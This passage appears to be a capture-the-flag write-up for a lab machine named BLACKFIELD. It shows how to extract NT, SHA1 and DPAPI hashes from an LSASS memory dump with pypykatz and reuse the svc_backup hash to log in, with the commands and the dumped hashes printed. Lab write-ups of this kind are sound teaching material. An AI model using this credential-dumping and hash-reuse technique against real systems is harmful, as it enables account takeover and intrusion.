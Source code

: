```
```

Local Security Authority Subsystem Service (LSASS) is a process that deals with Windows Security, and it does store the authentication credentials like hashes or Kerberos tickets in memory. If this is a memory dump, then we might be able to view the passwords by dumping it out.

We can download the file and then `unzip` it.

```
$ unzip lsass.zip    
Archive:  lsass.zip
  inflating: lsass.DMP
```

Then, using `pypykatz`, we can dump it out without going to a Windows machine to run `mimikatz`. Here's the interesting parts of the dump:

```
$ pypykatz lsa minidump lsass.DMP
Username: svc_backup
Domain: BLACKFIELD
LM: NA
NT: 9658d1d1dcd9250115e2205d9f48400d
SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
DPAPI: a03cd8e9d30171f3cfe8caad92fef621

Username: Administrator
Domain: BLACKFIELD
LM: NA
NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
DPAPI: 240339f898b6ac4ce3f34702e4a89550

Username: DC01$
Domain: BLACKFIELD
LM: NA
NT: b624dc83a27cc29da11d9bf25efea796
SHA1: 4f2a203784d655bb3eda54ebe0cfdabe93d4a37d
DPAPI: NA
```

Unfortunately, the hash for the administrator doesn't work. However, the one for `svc_backup` works and we can login:

<figure><img src="../../../.gitbook/assets/image (433) (2) (1).png" alt=""><figcaption></figcaption></figure>
